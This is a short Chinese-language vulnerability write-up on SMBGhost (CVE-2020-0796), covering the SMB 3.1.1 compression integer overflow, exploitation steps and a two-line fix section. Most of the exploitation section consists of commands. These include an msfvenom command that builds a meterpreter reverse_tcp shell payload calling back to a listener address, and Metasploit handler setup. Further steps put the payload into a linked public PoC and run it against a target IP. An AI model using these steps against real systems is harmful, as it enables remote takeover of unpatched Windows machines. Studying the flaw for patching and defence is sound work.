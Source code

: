 ### 一 漏洞描述
smbghost远程命令执行(CVE-2020-0796) 永恒之黑  

SMB 3.1.1协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。  
漏洞发生在srv2.sys中,由于SMB没有正确处理压缩的数据包,在解压数据包的时候使用客户端传过来的长度进行解压时,并没有检查长度是否合法.最终导致整数溢出。

### 二 漏洞利用
exploit  
https://github.com/chompie1337/SMBGhost_RCE_PoC

1 msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.23.140 LPORT=6666 -f python -o shell.txt
等待成功后，会生成一个shell.txt文件  
2 msf监听
```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 本地机器IP
msf5 exploit(multi/handler) > set lport 本地监听端口
msf5 exploit(multi/handler) > run
```
3 把shell.txt文件里的buf替换成USER_PAYLOAD，然后打开exploit.py文件，替换其中的USER_PAYLOAD  
4 执行exploit
`python3 exploit.py -ip 目标机器`

### 三 漏洞修复
1 打补丁  
2 关闭445



> 参考链接  
> 分析介绍: https://blog.csdn.net/Adminxe/article/details/105917952  
> 利用方式: https://cloud.tencent.com/developer/article/1944702  
> exploit: https://github.com/chompie1337/SMBGhost_RCE_PoC
